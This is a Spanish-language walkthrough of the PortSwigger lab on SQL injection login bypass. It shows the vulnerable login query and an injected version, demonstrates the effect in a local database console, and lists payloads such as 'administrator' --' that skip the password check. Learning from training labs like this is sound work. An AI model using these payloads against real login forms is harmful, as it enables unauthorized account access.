 # `Lab`: SQL injection vulnerability allowing login bypass

- [Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

## Descripción:

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

---

### Explicación:

- En este laboratiorio ya nos dan el nombre del **user** `administrator`, pero no tenemos el **password**.
- El truco está en comentar todo lo que está después del **user** para brincar la condición del **password**.

#### Query original:

````sql
select id,username,subscription from users where username = 'administrator' and password = '@variable';
````

#### Query inyectada:

````sql
select id,username,subscription from users where username = 'administrator'--' and password = '@variable';
````

---

### Explicación con Lab:

1. Hago exactamente que el ejemplo original, pero adaptado con un `username` de mi base de datos.
- Ojo!!! Como no tengo el **password** y solo el tengo el **username**, me marcará un resultado vacío:

````sql
select id,username,subscription from users where username = 'F0n3' and password = 'no_tengo_idea_del_password_:P';
````
````py
Empty set (0.000 sec) # <<<---|| Resultado vacío!!!
````

2. Si utilizo el **password** correspondiente me debería regresar un resultado, como se planeó originalmente: 

````sql
select id,username,subscription from users where username = 'F0n3' and password = 'p@ssw0rd123-1';
````
````py
+----+----------+--------------+
| id | username | subscription |
+----+----------+--------------+
|  2 | F0n3     | 1            |
+----+----------+--------------+
````

3. Si agrego el payload `F0n3' --` ya no importa el query para validar el password, ya que arrojará todo lo que sea igual a `F0n3`... sin importar el **password**!!! Muahaha!!!

````sql
# Version Web
select id,username,subscription from users where username = 'F0n3' --' and password = 'Ya_no_importa_nada_que_escriba_aquí_lol!';

# Consola SQL
select id,username,subscription from users where username = 'F0n3'; --'; and password = 'Ya_no_importa_nada_que_escriba_aquí_lol!';
````
````py
+----+----------+--------------+
| id | username | subscription |
+----+----------+--------------+
|  2 | F0n3     | 1            |
+----+----------+--------------+
````

## Solución:

1. Abrir laboratorio y buscar en donde me puedo autenticar

2. Ingresar el usuario `administrator` con el payload `administrator' --` o `administrator' -- -` o `administrator' #` _(O cualquiera de sus versiones)_

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/cb2feaac-5eef-4207-9786-15aa382ef97d)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/f19586fc-90f0-46e3-8172-66a0c69ccdf9)





